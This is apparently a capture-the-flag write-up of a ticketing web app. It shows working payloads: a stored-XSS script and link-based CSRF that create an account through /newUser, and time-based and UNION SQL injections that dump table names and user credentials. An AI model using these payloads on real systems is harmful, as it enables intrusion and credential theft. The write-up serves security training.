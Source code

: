 FLAG0
Taking a look at the demo version, the tickets appear to be vulnerable to xss.
```<script>alert("OOpsie")</script>``` works.
When I login as an admin an alert pops up to my screen.

I have had a similar instance in a previous ctf where I sent a request from the admins side so I tried the same here.
Adding ```<script>fetch("http://localhost/newUser?username=turtle&password=1234&password2=1234");</script>``` to the title of the ticket worked in the test version. 
Problem is when I tried it on the real thing nothing happened...
Appearently the automated check doesn't run the js...
Well it was worth trying 🤷‍♂️

After getting a few hints one of them was "Links in tickets could be interesting"
Okay so the request needs to be as a href(link) to the ```/newUser```.
Slap ```<a href="http://localhost/newUser?username=turtle&password=1234&password2=1234">hello</a>``` to the title (and body for good measures) and it seems to work.
Now I can login with the username turtle and password 1234.
There in an older ticket is (the correct, iykyk)flag0.

FLAG1
The tickets are viewed through ```/ticket?id= url``` and if you put something like 'a' as the id, the server will send back an error message.

![Alt text](images/image.png)

The error message leaks some inner workings of the server and we can see that the application uses mysql for handling the posts.
Could it also be used for the users?
```/ticket?id=1 AND SLEEP(10)```
And the page loads for 10 seconds so there is an attackvector for sqlinjection.

We could do some timebased read one character at a time type dumping but trying an id that doesn't exist yet, let's say 20, the server returns the following error.

![Alt text](images/image2.png)

So the server tries to get the tickets title, body and reply but the request is empty.
What if we get a ticket that doesn't exist and UNION something else to it?
```/ticket?id=20 UNION SELECT @@version, Database(), User()--```

![Alt text](images/image3.png)

Nice...

Now we can dump the db tables with the following query.
```/ticket?id=20 UNION SELECT NULL, NULL, GROUP_CONCAT(TABLE_NAME SEPARATOR 0x3c62723e) FROM information_schema.tables WHERE table_schema = 'level7' --```

![Alt text](images/image4.png)

We got 2 tables tickets and users, I think it's obvious which one we are interested in😉
```/ticket?id=20 UNION SELECT TABLE_NAME, NULL, GROUP_CONCAT(column_name SEPARATOR 0x3c62723e) FROM information_schema.columns WHERE table_name = 'users' --```

![Alt text](images/image5.png)

And there are usernames/passwords.
```/ticket?id=20 UNION SELECT NULL, NULL, GROUP_CONCAT(CONCAT(id, '~', username, '~', password) SEPARATOR 0x3c62723e) FROM users --```

![Alt text](images/image6.png)